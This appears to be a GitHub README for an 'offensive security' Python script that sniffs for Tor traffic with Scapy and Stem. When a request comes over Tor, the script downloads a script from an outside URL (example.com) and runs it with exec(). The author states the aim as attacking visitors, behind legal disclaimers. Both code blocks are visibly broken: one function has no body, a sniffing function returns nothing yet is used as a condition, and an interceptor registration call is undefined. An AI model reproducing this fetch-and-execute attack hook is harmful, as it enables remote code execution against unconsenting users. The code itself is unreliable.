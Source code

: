 # Feuerteufel - A Python Script for Intercepting API Requests
###### RedTeam Script (EDU) by Volkan Sah - simple codings for 'Offensive Security' (updated 5/2023)

Feuerteufel is a small Python script that demonstrates how to intercept requests and execute additional actions when accessed through the Tor network. The script is designed to showcase the interception capability and provides a template for further customization. However, it is important to note that engaging in such activities can have serious legal and ethical implications.

### WARNING: USE AT YOUR OWN RISK!
Please read the following warnings and considerations carefully before proceeding:

- Legal Compliance: Interfering with network traffic and executing external scripts without proper authorization can be illegal in many jurisdictions. Ensure that you fully understand and comply with the laws and regulations of your country or region before using this script.

- Ethical Responsibility: Respect the privacy and security of others. Do not use this script for malicious purposes, personal gain, or any activity that could cause harm or violate the rights of individuals or organizations. It is crucial to conduct ethical testing and obtain appropriate consent before performing any actions that may impact systems or networks.

- Personal Liability: The author of this script cannot be held responsible for any misuse, damages, legal issues, or consequences resulting from the use of this script. By using InterceptAPI, you assume full responsibility for your actions and any outcomes that may arise.

### Note 
This script is intended for educational and informational purposes only. It serves as a starting point for understanding API interception techniques and should be used responsibly and legally.

## Tor Traffic Monitoring Script

This script monitors and intercepts Tor traffic to detect and handle malicious activity. It utilizes the Scapy and Stem libraries to analyze network packets and interact with the Tor network.

## Features

- Monitors and intercepts Tor traffic in real-time.
- Detects malicious traffic based on specified keywords.
- Executes an external script for further analysis or actions like attacks
- Excludes malicious Tor relays from the circuit.

## Prerequisites

- Python 3.x
- Scapy library (`pip install scapy`)
- Stem library (`pip install stem`)

## Usage

1. Set the desired `.onion` address to monitor in the `onion_address` variable.
2. Customize the keywords for detecting malicious traffic in the `MaliciousTrafficListener` class.
3. Run the script and observe the output for detected malicious traffic.
4. Customize the `intercept_api_requests` function to handle intercepted API requests.
5. Adjust the local address or URL of the external script as needed.
6. Execute the `exclude_malicious_relays` function to add malicious relays to the circuit blacklist.

## Important Note

Executing code fetched from the internet or local sources can be risky. 
Ensure that you trust the source and contents of the external script before loading and executing it.

## How it Works
InterceptAPI utilizes the power of Python, Scapy, and Stem libraries to intercept API requests and perform additional actions. When accessed through the Tor network, the script can load and run an external script from a specified URL. It provides a basic framework that can be customized to meet specific requirements or integrate with other security tools.


## Acknowledgements

- This script utilizes the Scapy and Stem libraries.
- Thanks to the open-source community for their contributions.

## Disclaimer
This script is provided as-is, without any warranties or guarantees. The author cannot be held responsible for any damages, legal consequences, or misuse arising from the use of this script. Use it responsibly, respect the law, and always consider the potential impact on privacy, security, and the rights of others.

Remember: Be a responsible developer and prioritize the security and well-being of others!




































A creative small Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
## Sorry cant explane all or you know what can be!

## WARNING: READ CAREFULLY! !!! DANGER !!!
This Black Python script example is intended for use by security professionals and developers only. It is not intended for malicious purposes, and I cannot be held responsible for any misuse of this code. If you use this tool for illegal or unethical purposes, you alone will be held responsible for any consequences that may arise, including legal and ethical issues.

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) & [This](https://github.com/VolkanSah/playing-with-scapy-and-stem) to understand logic 😅

### Be aware that attempting to bypass security measures is likely illegal and unethical!
Idea:
```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```


Example:
```python
from scapy.all import *
from stem import Signal
from stem.control import Controller
import requests

def check_if_tor_traffic(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 443:
        with Controller.from_port(port = 9051) as controller:
            controller.authenticate()
            if controller.get_info("address") == packet[IP].dst:
                return True
    return False

def sniff_packets():
    packets = sniff(filter="tcp and (port 9050 or port 9051)", prn=check_if_tor_traffic)

def intercept_api_requests(request):
    if sniff_packets():
        # This is where you would load and execute your external script.
        # Remember that executing code fetched from the internet can be risky.
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")
``` 

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)
